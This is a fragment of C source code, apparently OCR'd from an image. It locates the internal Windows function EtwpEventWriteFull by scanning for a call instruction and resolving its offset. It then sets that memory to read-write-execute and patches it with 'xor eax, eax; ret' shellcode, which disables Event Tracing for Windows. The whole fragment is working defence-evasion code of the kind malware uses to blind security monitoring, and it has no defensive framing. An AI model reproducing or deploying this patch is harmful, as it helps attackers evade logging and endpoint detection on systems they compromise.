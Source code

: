 ```c
		i++;
	}

	// Searching upwards for the 'call' instruction
	while (i) {
		if (pEtwEventFunc[i] == x64_CALL_INSTRUCTION_OPCODE) {
			pEtwEventFunc = (PBYTE)&pEtwEventFunc[i];
			break;
		}
		i--;
	}

	// If the first opcode is not 'call', return null
	if (pEtwEventFunc != NULL && pEtwEventFunc[0] != x64_CALL_INSTRUCTION_OPCODE)
		return NULL;

	// Skipping the 'E8' byte ('call' opcode)
	pEtwEventFunc++;

	// Fetching EtwpEventWriteFull's offset
	dwOffSet = *(DWORD*)pEtwEventFunc;

	// Adding the size of the offset to reach the end of the call instruction
	pEtwEventFunc += sizeof(DWORD);

	// Adding the offset to the pointer reaching the address of 'EtwpEventWriteFull'
	pEtwEventFunc += dwOffSet;

	// pEtwEventFunc is now the address of EtwpEventWriteFull
	return (PVOID)pEtwEventFunc;
}



BOOL PatchEtwpEventWriteFullStart() {

	PVOID		pEtwpEventWriteFull = NULL;
	DWORD		dwOldProtection		= 0x00;
	BYTE		pShellcode[3]		= {
		0x33, 0xC0,			// xor eax, eax
		0xC3				// ret
	};

	// Getting EtwpEventWriteFull address
	pEtwpEventWriteFull = FetchEtwpEventWriteFull();
	if (!pEtwpEventWriteFull)
		return FALSE;

	// Change memory permissions to RWX
	if (!VirtualProtect(pEtwpEventWriteFull, sizeof(pShellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] failed with error  %d \n", GetLastError());
		return FALSE;
	}

	// Apply the patch
	memcpy(pEtwpEventWriteFull, pShellcode, sizeof(pShellcode));

	// Change memory permissions to original
	if (!VirtualProtect(pEtwpEventWriteFull, sizeof(pShellcode), dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] failed with error  %d \n", GetLastError());
		return FALSE;
```
